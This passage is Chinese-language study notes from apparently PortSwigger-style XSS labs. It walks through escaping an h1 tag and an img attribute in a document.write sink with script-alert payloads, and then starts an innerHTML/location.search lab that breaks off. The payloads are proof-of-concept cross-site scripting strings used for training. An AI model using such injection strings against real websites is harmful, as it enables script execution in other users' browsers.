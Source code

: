 可以看到被h1所包围住了

```
<h1>0 search results for '&lt;script&gt;alert(1)&lt;/script&gt;'</h1>
```



所以先尝试构造把标签闭合了

```
</h1><script>alert(1)</script><h1>
```

提交后发现不太行，F12找到`document.write`的script代码

![image-20250222104526312](../../_media/image-20250222104526312.png)

发现他是搜索然后闭合成一个img

所以直接构造payload：

```
"><script>alert(1)</script>
```

点击`Search`按钮



提示 `Congratulations！`





#### Lab: DOM XSS in `innerHTML` sink using source `location.search`

目的还是一样alert出来

```
<script>alert(1)</script>
```

依旧先进行尝试，然后`F12`查看DOM情况

![image-20250222105222745](../../_media/image-20250222105222745.png)
